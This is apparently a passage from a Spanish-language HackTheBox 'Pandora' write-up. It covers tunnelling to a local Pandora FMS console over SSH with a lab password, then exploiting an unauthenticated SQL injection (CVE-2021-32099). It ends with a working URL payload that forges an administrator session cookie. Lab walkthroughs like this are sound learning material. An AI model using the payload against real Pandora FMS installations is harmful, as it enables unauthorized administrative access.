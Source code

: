 Vemos que se están realizando varias operatorias sobre los archivos **`config.php`**, **`php.ini`** y algunos directorios.
Este script nos da indicios de que existe una consola para un panel llamado Pandora.
Dado que no tenemos acceso desde el exterior, vamos a levantar un túnel hacia este recurso con ayuda de **`SSH`**:

```console
p3ntest1ng:~$ sudo ssh daniel@panda.htb -L 80:127.0.0.1:80

The authenticity of host 'panda.htb (10.10.11.136)' can't be established.
ECDSA key fingerprint is SHA256:9urFJN3aRYRRc9S5Zc+py/w4W6hmZ+WLg6CyrY+5MDI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'panda.htb,10.10.11.136' (ECDSA) to the list of known hosts.
daniel@panda.htb's password: HotelBabylon23
...[snip]...
daniel@pandora:~$ 
```

Con esto, ahora deberíamos ser capaces de ver el panel que antes no podíamos ver ya que sólo estaba disponible de forma local:

![Pandora](/assets/images/hackthebox/machines/pandora/console.png)

Abajo del todo vemos la versión del CMS: **`v7.0NG.742_FIX_PERL2020`** y realizando una búsqueda en Google, encontramos que es vulnerable a **`SQL Injection`**

![CVE1](/assets/images/hackthebox/machines/pandora/cve1.png)

> [https://github.com/TheCyberGeek/CVE-2020-5844](https://github.com/TheCyberGeek/CVE-2020-5844)

En Google se encuentran diversos artículos explicando las vulnerabilidades de este CMS,
nosotros vamos a centrarnos en aplicar un **`Unauthenticated SQL Injection`** (CVE-2021-32099).

Pero primero vamos a verificar el SQL Injection:

![UnAuth SQLI](/assets/images/hackthebox/machines/pandora/unauth_sqli.png)

![SQLI Success](/assets/images/hackthebox/machines/pandora/sqli.png)

Analicemos el siguiente exploit: [https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated)

En el código vemos cómo se hace la consulta para obtener la cookie de sesión del usuario administrador:

![SQLI Cookie](/assets/images/hackthebox/machines/pandora/sqli_cookie.png)

Ejecutando esta consulta sobre el servidor web (en este caso sobre nuestro localhost, gracias al port forwarding), podemos obtener la cookie:

![Get Cookie](/assets/images/hackthebox/machines/pandora/get_cookie.png)

```
http://localhost/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO
```
